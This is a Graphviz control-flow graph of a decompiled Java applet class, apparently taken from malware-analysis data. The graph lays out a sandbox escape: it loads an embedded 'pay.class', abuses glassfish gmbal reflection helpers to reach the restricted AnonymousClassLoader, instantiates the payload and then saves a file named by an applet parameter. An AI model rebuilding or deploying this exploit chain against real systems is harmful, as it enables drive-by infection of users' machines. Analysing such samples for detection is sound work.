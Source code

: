 digraph "" {
    "r0 := @this: ldk"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: ldk"->"new java.io.ByteArrayOutputStream";
    "store.r $r9"
    "new java.io.ByteArrayOutputStream"->"store.r $r9";
    "load.r $r9"
    "store.r $r9"->"load.r $r9";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r $r9"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r21"
    "newarray"->"store.r r21";
    "load.r r0"
    "store.r r21"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"pay.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"pay.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"pay.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r1";
    "goto load.r r1"
    "store.r r1"->"goto load.r r1";
    "load.r r1"
    "goto load.r r1"->"load.r r1";
    "load.r r21"
    "load.r r1"->"load.r r21";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r21"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i $i1"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i $i1";
    "load.i $i1"
    "store.i $i1"->"load.i $i1";
    "ifgt load.r $r9"
    "load.i $i1"->"ifgt load.r $r9";
    "ifgt load.r $r9"->"load.r $r9";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r $r9"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r $r9";
    "new org.glassfish.gmbal.util.GenericConstructor"
    "store.r $r9"->"new org.glassfish.gmbal.util.GenericConstructor";
    "dup1.r"
    "new org.glassfish.gmbal.util.GenericConstructor"->"dup1.r";
    "push class \"Ljava/lang/Object;\""
    "dup1.r"->"push class \"Ljava/lang/Object;\"";
    "push \"sun.invoke.anon.AnonymousClassLoader\""
    "push class \"Ljava/lang/Object;\""->"push \"sun.invoke.anon.AnonymousClassLoader\"";
    "push 0"
    "push \"sun.invoke.anon.AnonymousClassLoader\""->"push 0";
    "push 0"->"newarray";
    "specialinvoke <org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>"
    "newarray"->"specialinvoke <org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>";
    "specialinvoke <org.glassfish.gmbal.util.GenericConstructor: void <init>(java.lang.Class,java.lang.String,java.lang.Class[])>"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>"
    "newarray"->"virtualinvoke <org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>";
    "virtualinvoke <org.glassfish.gmbal.util.GenericConstructor: java.lang.Object create(java.lang.Object[])>"->"store.r r1";
    "store.r r1"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"loadClass\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"loadClass\"";
    "push 1"
    "push \"loadClass\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "arraywrite.r"
    "push class \"[B\""->"arraywrite.r";
    "staticinvoke <org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>";
    "staticinvoke <org.glassfish.gmbal.ManagedObjectManagerFactory: java.lang.reflect.Method getMethod(java.lang.Class,java.lang.String,java.lang.Class[])>"->"load.r r1";
    "load.r r1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r9";
    "load.r $r9"->"arraywrite.r";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "arraywrite.r"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "checkcast"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"lewd\""
    "load.r r0"->"push \"lewd\"";
    "virtualinvoke <ldk: java.lang.String getParameter(java.lang.String)>"
    "push \"lewd\""->"virtualinvoke <ldk: java.lang.String getParameter(java.lang.String)>";
    "push \"\\d\""
    "virtualinvoke <ldk: java.lang.String getParameter(java.lang.String)>"->"push \"\\d\"";
    "push \"\""
    "push \"\\d\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <ldk: java.lang.String saveFile(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"virtualinvoke <ldk: java.lang.String saveFile(java.lang.String)>";
    "virtualinvoke <ldk: java.lang.String saveFile(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "virtualinvoke <ldk: java.lang.String saveFile(java.lang.String)>"->"store.r r0";
    "ifgt load.r $r9"->"load.r $r9";
    "load.r $r9"->"load.r r21";
    "load.r r21"->"push 0";
    "push 0"->"load.i $i1";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i $i1"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
}
